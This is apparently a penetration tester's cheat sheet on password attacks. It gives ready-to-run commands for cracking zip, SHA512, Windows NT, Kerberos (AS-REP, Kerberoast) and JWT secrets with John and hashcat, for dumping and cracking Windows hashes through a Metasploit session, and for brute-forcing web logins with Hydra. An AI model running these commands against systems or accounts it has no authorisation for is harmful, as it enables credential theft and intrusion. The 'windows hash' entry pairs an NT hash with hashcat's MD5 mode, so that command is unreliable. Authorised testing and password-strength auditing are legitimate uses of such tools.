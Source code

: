 # Password Attacks

# john

- Crack password protected zip archives

```
zip2john archive.zip > archive.hash
john archive.hash --fork=4 -w=/path/to/wordlist

```

- Crack salted SHA512 hash

```
# hashfile format: hash$salt
john --format='dynamic=sha512($p.$s)' --wordlist=/path/to/wordlist ./hashfile

```

- Crack Windows hash

```
# Fist, get Windows hash
# Format: User:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

```

## hashcat

- generate word list with hashcat maskprocessor

```
<https://github.com/hashcat/maskprocessor/releases/>

```

- windows hash

```
# Format: ffb43f0de35be4d9917ac0cc8ad57f8d
hashcat -m 0 -a 0 ./hash.txt /opt/wordlists/rockyou.txt

```

- kerberos asrep (asreproast)

```
hashcat -m 18200 --force -a 0 hashes.asreproast /opt/wordlists/rockyou.txt

```

- kerberos tgs (kerberoast)

```
hashcat -m 13100 --force -a 0 ./kerberoast.hashes /opt/wordlists/rockyou.txt

```

- attack modes

```
# dictionary attack
-a0
# combinator attack
-a1
# bruteforce / mask attack
-a3
# hybrid wordlist+mask
-a6
# hybrid mask+wordlist
-a7

```

- hash types

```
# full list : <https://hashcat.net/wiki/doku.php?id=example_hashes>
# md5
-m 0
# jwt
-m 16500
# kerberos asrep (asreproast)
-m 18200
# kerberos ths (kerberoast)
-m 13100

```

### mask attack

[Untitled](Password%20A%20966fb/Untitled%20D%202741c.csv)

```
# define custom charset
-1 ?h?H?d
# define mask
?1?1?1
# command
-a3 -1 ?h?H?d ?1?1?1

```

### HS256 JWT secret

```
# mask attack 4-12 char [a-z0-9]
hashcat -a 3 -m 16500 jwt.txt ?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld -i --increment-min=4

# dictionary attack
hashcat -a 0 -m 16500 jwt.txt passlist.txt

# distionary rule-based attack
hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule

```

## Metasploit

- Crack previously dumped Windows hash

```
# First, open and background a Meterpreter session
# Store hash dump into database, then:
use post/windows/gather/hashdump
set session X
use auxiliary/analyze/crack_windows
run

```

# Brute forcing

## Hydra

- Bruteforce login/password combination

```
hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt <hostname> http-post-form "/path/to/login:<username field name>=^USER^&<password field name>=^PASS^:<error string>"

```

- Find password for a known user

```
hydra -P /usr/share/wordlists/rockyou.txt -l admin www.domain.tld http-post-form "/path/to/login.php:<username field name>=^USER^&<password field name>=^PASS^:<error string>"

```

## Links

---

### Guides

- [https://github.com/frizb/Hydra-Cheatsheet](https://github.com/frizb/Hydra-Cheatsheet)
- [https://github.com/DidierStevens/DidierStevensSuite/blob/master/xor-kpa.py](https://github.com/DidierStevens/DidierStevensSuite/blob/master/xor-kpa.py)

### Writeups

-